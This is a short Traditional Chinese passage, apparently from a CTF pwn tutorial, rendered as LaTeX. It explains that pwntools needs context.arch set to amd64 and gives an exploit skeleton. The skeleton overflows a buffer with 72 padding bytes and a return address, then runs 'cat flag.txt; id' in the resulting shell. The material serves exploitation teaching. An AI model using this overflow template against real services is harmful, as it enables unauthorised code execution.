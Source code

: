 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{quote}
※重要 \textbf{\texttt{flat()} 的寬度取決於
\texttt{context.\allowbreak{}arch}，不是自動判斷！} 沒設 \texttt{context.\allowbreak{}arch} 時
pwntools 預設是 \textbf{32-bit}，\texttt{flat({[}0x401234{]})} 只會給你
\textbf{4 bytes}（不是 8 bytes），拿去打 64-bit 的題目會整條鏈錯位。
所以\textbf{每一支 exploit 的開頭}都要先寫：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}   \CommentTok{\# ← 沒寫的話 flat() / SigreturnFrame() / shellcraft 全會錯}
\end{Highlighting}
\end{Shaded}

自己驗證一下：\texttt{python3\ \allowbreak{}-\allowbreak{}c\ \allowbreak{}"from\ \allowbreak{}pwn\ \allowbreak{}import\ \allowbreak{}*;\ \allowbreak{}print(len(flat({[}0x401234{]})))"}
→ 沒設是 \texttt{4}，設了
\texttt{context.\allowbreak{}arch=\textquotesingle{}\allowbreak{}amd64\textquotesingle{}\allowbreak{}} 才是
\texttt{8}。
\end{quote}

\paragraph{常用解題骨架}\label{ux5e38ux7528ux89e3ux984cux9aa8ux67b6}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\#!/usr/bin/env python3}
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context.arch }\OperatorTok{=} \StringTok{\textquotesingle{}amd64\textquotesingle{}}
\NormalTok{context.log\_level }\OperatorTok{=} \StringTok{\textquotesingle{}info\textquotesingle{}}

\KeywordTok{def}\NormalTok{ start():}
    \ControlFlowTok{if}\NormalTok{ args.REMOTE:}
        \ControlFlowTok{return}\NormalTok{ remote(}\StringTok{\textquotesingle{}chal.example.com\textquotesingle{}}\NormalTok{, }\DecValTok{1337}\NormalTok{)}
    \ControlFlowTok{return}\NormalTok{ process(}\StringTok{\textquotesingle{}./chal\textquotesingle{}}\NormalTok{)}

\NormalTok{p }\OperatorTok{=}\NormalTok{ start()}
\NormalTok{p.recvuntil(}\StringTok{b\textquotesingle{}\textgreater{} \textquotesingle{}}\NormalTok{)}

\NormalTok{payload  }\OperatorTok{=} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*} \DecValTok{72}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(}\BaseNTok{0x401234}\NormalTok{)}

\NormalTok{p.sendline(payload)}
\NormalTok{p.sendline(}\StringTok{b\textquotesingle{}cat flag.txt; id; echo DONE\textquotesingle{}}\NormalTok{)}
\BuiltInTok{print}\NormalTok{(p.recvrepeat(}\DecValTok{3}\NormalTok{))}
\end{Highlighting}
\end{Shaded}
\end{document}
